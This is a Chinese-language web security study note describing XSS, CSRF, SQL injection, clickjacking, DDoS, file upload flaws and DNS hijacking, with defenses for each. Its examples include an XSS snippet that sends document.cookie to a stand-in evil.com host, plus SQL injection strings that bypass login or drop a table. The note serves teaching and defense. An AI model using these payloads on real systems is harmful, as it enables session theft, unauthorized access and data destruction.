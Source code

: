 ## XSS攻击

XSS（Cross Site Scripting）跨站脚本攻击：在网页中注入恶意脚本。用户浏览网页时执行恶意脚本。常见类型为反射型XSS和存储型XSS。

比如一个url

```
http://localhost/xss/test.php?usr=<script=http://www.evil.com/evil.js
```

```js
var img=document.createElement('img')
img.src='http://www.evil.com/log?'+encodeURIComponent(document.cookie)
document.body.appendChild(img)
```

##### 防护

1. HttpOnly 在**Set-Cookie**的时候标记的。 
2. 移除用户输入的和事件相关的属性。
   1.  如onerror可以自动触发攻击，还有onclick
   2. 移除用户输入的Style节点、Script节点、Iframe节点
3. 避免直接对HTML Entity进行解码。使用DOM Parse转换，校正不配对的DOM标签。 html encode进行转译

## CSRF

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

#### 流程

- 用户登录了A站，保留登录凭证
- 攻击者引诱用户访问了B站
- B站向A站发送正常请求
- A站验证后以为是用户发出，执行相关操作
- 攻击完成

> cookie保证了用户可以处于登录状态，但网站B其实拿不到 cookie。

##### 防护

1. 添加验证码
2. Anti CSRF Token 请求参数里面的随机token

## 注入攻击

- SQL注入

```sql
SELCT * FROM user WHERE email='%s' AND password='%s'
```

1. 绕过秘密 email="xxx' OR 1=1 --" password="****"
2. 删除数据表 email="xxx';  drop table --" password="****"

##### 防护

1. 预编译语句 绑定变量
2. 特殊字符转译
3. 不返回详细sql信息
4. 严格控制数据库权限

- XML注入

## 点击劫持

视觉欺骗（透明的iframe）

##### 防护

X-FRAME-OPTIONS

## DDOS攻击

DDOS（Distributed Denial Of Service）分布式拒绝服务。利用合理的请求造成资源过载，导致服务不可用。

- 网络层

  - SYN

    依靠TCP三次握手机制，随意构造源ip发送SYN包，SYN+ACK包就得不到应答

  - ACK

    查表，响应ACK/RST

  - UDP

- 应用层

  - DNS

    依靠dns解析机制，随意构造域名，DNS服务器递归查询，造成很大负载

  - http慢连接

    建立http连接，设置一个较大的content-length，但是每次只发送很少字节，让服务器一直以为http头部没有传输完

##### 防护

- 打开SYN半数连接数目
- 严格限制向外访问
- 限制请求频率，重定向到错误页面
- 验证码

## 文件传输漏洞

##### 防护

- 使用白名单
- 使用随机数改写文件路径和文件名

## DNS劫持

通过某些手段获取某域名的解析控制权，修改域名的解析结果

##### 防护

- 使用114.114.114.114 或者8.8.8.8
- 使用多个域名
- 移动端httpDNS

